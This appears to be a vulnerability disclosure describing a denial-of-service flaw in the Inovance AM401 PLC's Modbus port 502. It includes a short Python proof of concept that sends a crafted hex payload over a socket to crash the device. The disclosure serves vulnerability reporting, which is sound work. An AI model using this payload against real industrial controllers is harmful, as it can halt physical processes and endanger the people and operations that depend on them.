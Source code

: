 # Summary
There is a denial of service vulnerability in port 502 of Inovance AM401 PLC. An attacker can send a carefully constructed message to cause the PLC device to crash.

# Details

Connectivity test of the device:
![image](https://github.com/user-attachments/assets/c10898e0-f1ea-4453-9a02-318f157df6b6)


Nmap scans device ports:![image](https://github.com/user-attachments/assets/6f9f906f-79cc-4f75-b223-32c3a2c4e94b)


You can see that port 502 is open.

Then we run the script:![image](https://github.com/user-attachments/assets/10d6dcaa-3119-4a41-9e1c-68cab09f41a6)


Soon you will see the device crash.
![image](https://github.com/user-attachments/assets/ee9b668e-799c-4638-b2f0-2347e4bb7057)

![image](https://github.com/user-attachments/assets/85fa0d0a-6e4d-49c6-a2f8-ee6783c842c0)



# PoC
My host ip is `192.168.1.149` and the device's ip is `192.168.1.88`.

```py
import socket


data = "031100EEFF0504010063006403110000006B6B6B6B6B6B6B6B6B6B6B6B6B6B6B6B6B6B6B6B6B6B6B6B6B6B6B6B6B6B6B6B06010100610064F000630064F000009100000000000000"
data = bytes.fromhex(data)
s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("192.168.1.88",502))
s.send(data)

```

# Discoverer
Li Chunan(804242129@qq.com)

https://github.com/N0zoM1z0

